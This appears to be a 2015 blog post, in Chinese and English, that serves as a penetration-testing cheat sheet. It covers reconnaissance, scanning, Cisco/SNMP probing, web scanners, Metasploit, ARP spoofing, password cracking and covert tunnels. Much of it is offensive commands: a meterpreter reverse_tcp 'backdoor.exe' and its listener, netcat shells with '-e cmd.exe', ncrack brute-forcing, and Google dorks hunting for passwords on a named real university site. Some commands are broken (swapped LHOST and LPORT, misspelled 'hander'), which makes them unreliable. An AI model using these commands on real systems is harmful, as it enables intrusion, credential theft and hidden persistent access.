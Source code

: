 ```yaml
---
author: sn0rt
comments: true
date: 2015-01-01
layout: post
title: network security toolkit
tag: security
---
```


### 0x00 Objective

顺便借助主流工具，来介绍常规网络问题.


### 0x01 distributions:

* kali:
From the creators of BackTrack comes Kali Linux, the most advanced and versatile penetration testing distribution ever created. We have a whole set of amazing features lined up in our security distribution, geared at streamlining the penetration testing experience.
* Backbox Linux:
Another Ubuntu based distro but uses XFCE as its window manager and relies on its own repo to constantly keep its tools updated.
* Pentoo:
A livecd based on Gentoo and XFCE. Also available as an overlay for existing Gentoo installations. Has the ability to crack passwords using GPGPU out of the box.

### 0x02 recce

传统的本地 dns 探测工具，多数依赖于字典文件：

```shell
dnsenum.pl -f dns_list.txt --dnserver 8.8.8.8 cisco.com -o cisco.list
dnsmap cisco.com -w wordlist.txt -c cisco.csv
```

路由信息收集工具，一个传统的 udp 实现，一个现代一点的利用 tcp 实现，可以穿越防火墙。

* paratrace, 一种新的、隐形的 traceroute, 可使用有状态的过滤器。
* traceroute: 传统的工具
* tcptraceroute：稍微新一点，利用 tcp 的工具。

搜索引擎的技巧

    http://en.wikipedia.org/wiki/Google_hacking
    filetype:xls site:jlxy.nju.edu.cn
    密码 site:jlxy.nju.edu.cn
    密码 site:jlxy.nju.edu.cn filetype:doc
    site:jlxy.nju.edu.cn intext:admin

自动化，综合的信息收集平台 maltego

    1：domain
    2：dns
    3：whois information
    4：network block
    5：ip address
    6：E-mail


### 0x03 scanning

发现主机

```shell
arping -c 2 192.168.1.1

fping -s -r 1 192.168.1.1 192.168.1.254

hping3 -c 2 192.168.1.1

hping3
hping>hping send {ip(addr=192.168.1.1)+icmp(type=8,code=0)}

nbtscan 192.168.1.1-254
```

操作系统指纹识别

* 主动：nmap -O
* 被动：p0f

端口扫描

* autoscan
* netifera
* scanrand: 一个非常快速、无状态的 TCP 端口扫描器和 traceroute 工具
    
服务探测
    
```shell
cd /pentest/enumeration/www/httprint/linux/
httprint -h 192.168.1.1 -s singnature.txt
```
  

VPN 探测

```shell
ike-scan -M -v 192.168.1.1
sslscan 192.168.1.1
```

### 0x04 Vulnerability discovery 

#### Cisco tools

cisco auditing tool

```shell
# ./CAT -h 192.182.1.1 -w lists/community -a lists/passwords -I
```
    
Cisco passwd scanner

```shell
# ./cisco 10.10.10 3 -t 4 -C 10
```

Snmp tools

```shell
cd /pentest/enumeration/snmp/admsnmp
./ADMsnmp 192.168.1.1 -wordf wordlist.list
```

如果你知道 snmp 的 community, 你可以使用这个工具收集信息.

```shell
cd  /pentest/enumeration/snmp/snmpenum/
./snmpenum 192.168.1.1 private windows.txt
```

### 0x05 web toolkit

Burp suite

Nikto

```shell
# ./nikto.pl -h 192.168.1.1 -C -p 80 T3487b -t 3 -D \V  -o webtest -F htm
```

W3af

这个 waf 的探测工具：WAFW00F

```shell
cd /pentest/web/waffit/
./wafw00f http://....
```

介绍两个成熟的框架：openvas，nessus

### 0x06 Integrated tools

MSF

```shell
# msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.150 LPORT=4444 X > backdoor.exe
```

```shell
msfconsole
use exploit/multi/hander
set PAYLOAD windows/meterpreter/reverse_tcp
set LPORT 192.168.1.150
set LHOST 4444
```

### 0x07 local network


#### Layer 2:

* CDP(cisco discovery protocols)
*  mac flood

#### Layer 3:

dhcp tcp syn flood

结合一点点嗅探技术:
包由 Dug Song 编写, 已经发布几年了, 是一组强大的网络审核工具。其中有一个简洁的小工具 arpspoof, 可用于向 ARP 缓存注入虚假信息。该工具可以创建 Gratuitous ARP 应答, 应答数据包中的源 IP 是用户打算伪装的 IP 地址, 而目标 IP 则是所要嗅探的目标计算机。


### 0x08 crack the password

#### online：以破解 cisco 的路由器，和 html 表单的例子。

```shell
ncrack -U pass -v -P pass telnet://192.168.1.1
ncrack -U pass -v -P pass http://192.168.1.1
```

#### offline：无线的密码破解是离线的

### 0x09 Maintaining Access

基本都是两台主机，其中一台替另一台通过某些服务对流量进行封装中继。

#### DNS 隧道

Server:dns2tcpd

```shell
./dns2tcpd -F -d 1 -f dns2tcpd.conf
```

Client:

```shell
./dns2tcpc  -z  domain.org
```


```ini
Domain=domain.org
Rescoure = ssh
Local_port = 2222
Debug = 1
```

#### icmp 隧道

Server:

```shell
./ptunnel
```

Client:

```shell
./ptunnel -p tun.ser_ip -lp 2222 -da ture.ip  -dp 22
```

#### 代理服务器

netcat
Windows:

```shell
nc.exe -d -L -p 1234 -e cmd.exe
```

Remote:

```shell
nc -l -p 1234
```

locale:

```shell
nc -d remore port -e cmd.exe
```

Nc realy:（利用脚本实现），就是一种重定向，指定的数据流转发，还可以把传输的信息 dump 一次。

```shell
#!/bin/bash
nc -o output.file ip_addr port
nc -l -p 23 -e script.sh
```
